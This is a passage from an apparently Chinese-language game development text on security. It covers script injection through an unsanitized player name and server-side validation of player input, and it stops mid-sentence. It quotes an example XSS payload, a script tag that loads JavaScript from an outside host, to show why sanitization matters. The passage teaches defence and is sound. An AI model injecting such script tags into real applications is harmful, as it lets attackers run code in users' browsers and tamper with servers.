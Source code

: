 对于休闲的开发者来说，这似乎是对准备享受你的平台游戏的玩家的一个相当可爱的问候。假设用户输入了一个没有 HTML 字符的实际名称，一切都会好的。

然而，如果用户决定称自己为类似`<script src="http://my-website.com/my-script.js"></script>`的东西，而我们没有净化该字符串以删除会使该字符串成为有效 HTML 的字符，应用可能会受到损害。

作为用户，利用此漏洞的两种可能方法是改变客户端的体验(例如，输入一个使名称闪烁的 HTML 字符串或下载并播放任意 MP3 文件)，或者输入一个下载并执行 JavaScript 文件的 HTML 字符串，这些文件会改变主游戏脚本并以恶意方式与游戏服务器交互。

更糟糕的是，如果我们不小心保护免受其他漏洞的攻击，这个安全漏洞可能会与其他漏洞一起被利用，进一步加剧邪恶玩家可能造成的伤害:

![Script injection](img/image00160.jpeg)

## 服务器验证

根据我们如何在服务器上处理和使用来自用户的输入，我们可以通过信任具有未初始化输入的用户来损害服务器和其他资产。然而，仅仅确保输入通常是有效的是不够的。

例如，在的某个时刻，你会告诉服务器玩家在的什么位置，他或她移动的速度和方向，可能还有哪些按钮被按下。如果我们需要通知服务器玩家的位置，我们将首先验证客户端游戏是否提交了有效的号码:
